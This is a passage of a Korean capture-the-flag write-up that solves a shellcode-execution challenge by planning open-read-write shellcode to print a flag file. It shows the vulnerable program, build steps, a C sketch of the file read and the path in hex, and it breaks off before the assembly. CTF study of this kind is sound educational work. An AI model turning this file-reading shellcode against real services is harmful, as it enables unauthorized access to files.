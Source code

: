 ```c
void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

입력한 shellcode를 실행하는 프로그램으로 flag 위치와 이름은 /home/shell_basic/flag_name_is_loooooong 이다. 

입력한 shellcode를 그대로 실행해주기 때문에 저 flag파일을 open 해서 read 한 후 write로 화면에 flag 값을 뿌려주면 정답이 나올 것이다. 그러므로 다음과 같이 진행하면 된다.

1. open, read, write (orw문제)를 어셈블리어로 작성한다. shellcode.asm파일을 만든다.
2. nasm - f elf64 shellcode.asm 으로 컴파일한다.(32비트면 elf64→elf)
3. objcopy —dump-section .text=shellcode.bin shellcode.o 로 쉘코드로 만든다.
4. xxd shellcode.bin 으로 쉘코드를 출력한다.

그러면 이제 어셈블리어로 작성을 해야하는데 무작정 어셈블리어부터 작성하려고 하면 어려우니 먼저 c언어로 작성해보자.

```c
char buf[0x100]; // 플래그의 길이를 모르므로 넉넉하게 버퍼값 설정

int fd = open("/home/shell_basic/flag_name_is_loooooong",RD_ONLY,NULL);
read(fd,buf,0x100);
write(1,buf,0x100);
```

길이를 넉넉하게 설정한 버퍼를 기반으로 open을 이용해 서버측의 플래그가 들어있는 파일을 열고(open), 파일에 들어있는 값을 읽어서(read), 화면에 출력해주면(write) 된다. 이제 이걸 어셈블리어로 하나씩 바꿔보자.

## Open을 어셈블리어로 바꾸기

이에 맞춰서 변환해주려면 먼저 문자열을 16진수로 변환해주어야한다.

```c
/home/shell_basic/flag_name_is_loooooong

----------------------------------------------
2f 68 6f 6d 65 2f 73 68
65 6c 6c 5f 62 61 73 69 
63 2f 66 6c 61 67 5f 6e 
61 6d 65 5f 69 73 5f 6c 
6f 6f 6f 6f 6f 6f 6e 67
```
